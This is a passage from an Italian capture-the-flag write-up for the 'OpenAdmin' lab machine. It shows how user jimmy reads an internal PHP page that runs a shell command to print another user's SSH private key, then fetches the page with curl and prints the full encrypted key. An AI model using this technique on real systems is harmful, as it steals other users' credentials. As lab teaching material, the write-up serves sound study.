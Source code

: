 ### 2st Metod

analizzando il contenuto di `var/www/internal/` abbiamo un file di nome `main.php`
se lo leggiamo si fa riferimento ad un chiave id_rsa

```bash
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

proviamo a leggere direttamente con `curl`

```bash
jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

